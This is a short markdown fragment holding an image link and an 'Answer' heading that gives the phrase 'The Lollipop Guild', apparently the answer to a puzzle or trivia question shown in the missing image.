


## Answer
`The Lollipop Guild`
